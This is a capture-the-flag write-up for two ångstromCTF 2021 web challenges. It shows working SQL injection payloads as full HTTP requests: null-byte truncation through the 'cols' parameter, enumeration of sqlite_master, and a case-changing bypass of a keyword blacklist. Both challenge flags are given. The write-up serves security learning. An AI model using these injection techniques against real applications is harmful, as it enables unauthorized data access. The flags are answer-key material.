 ångstromCTF 2021

# Sea of Quills
## 70 points · 372 solves

Come check out our [finest selection of quills](https://seaofquills.2021.chall.actf.co/)!

[app.rb](https://files.actf.co/c6131fafd681ef59ee5167822702986f813b0e3177f3f7c78f1790adaac92384/app.rb)
* * *

### Solution

After exploring the site we will understand that we can view the quills and do a search on them. But it is not yet clear what could be vulnerable. 

Let's take a loot at the source code.  

Note some things:
- sqlite3 as DBMS
- blacklist for the cols parameter
- lim and off parameters can only be integers

Obviously, we have to exploit cols parameter
But we can't specify this on the page so let's intercept the request with a burp and change it.
* * *
#### A little background: 
As I understand it, the author of the task wanted us to use routed sql injection. But I found unintended solution which I will tell about lower.
* * *
If we set the cols parameter as "*" we can get all columns from the current table. But what if we want to make a more complex query?

The first thing that came to my mind was to comment out the rest of the sql query. After some research and trying, I found the necessary payload. We need just to add a null byte at the end of requst:
```http
POST /quills HTTP/1.1
Host: seaofquills.2021.chall.actf.co
Content-Length: 40

limit=123&offset=0&cols=* from quills%00
```
Next, we will find out the names of the table:
```http
POST /quills HTTP/1.1
Host: seaofquills.2021.chall.actf.co
Content-Length: 54

limit=123&offset=0&cols=tbl_name from sqlite_master%00
```
And will get the flag from **flagtable**:
```http
POST /quills HTTP/1.1
Host: seaofquills.2021.chall.actf.co
Content-Length: 43

limit=123&offset=0&cols=* from flagtable%00
```
  
Flag: `actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}`

***  

# Sea of Quills 2
## 160 points · 143 solves

A little bird told me my original quills store was vulnerable to illegal hacking! I've fixed [my store now](https://seaofquills-two.2021.chall.actf.co/) though, and now it should be impossible to hack!

[Source](https://files.actf.co/990a2a395969dc5a5e6b9db4bd49b33af90ca0b0056b9a1a3bd2ab38ff4dd56b/app.rb)
* * *

### Solution

The task was almost the same as the previous one. But there were some changes:
- the "flag" value was added to the blacklist
- value of cols paramater must be below 25

Sqlite3 is not case-sensetive by default so using a payload with a null byte from first part of the task I checked the following request:
```http
POST /quills HTTP/1.1
Host: seaofquills-two.2021.chall.actf.co
Content-Length: 43

limit=123&offset=0&cols=* from FlaGTabLe%00
```
I just replaced some characters of the **flagtable** name with a different case and it worked!
 
Flag: `actf{the_time_we_have_spent_together_riding_through_this_english_denylist_c0776ee734497ca81cbd55ea}`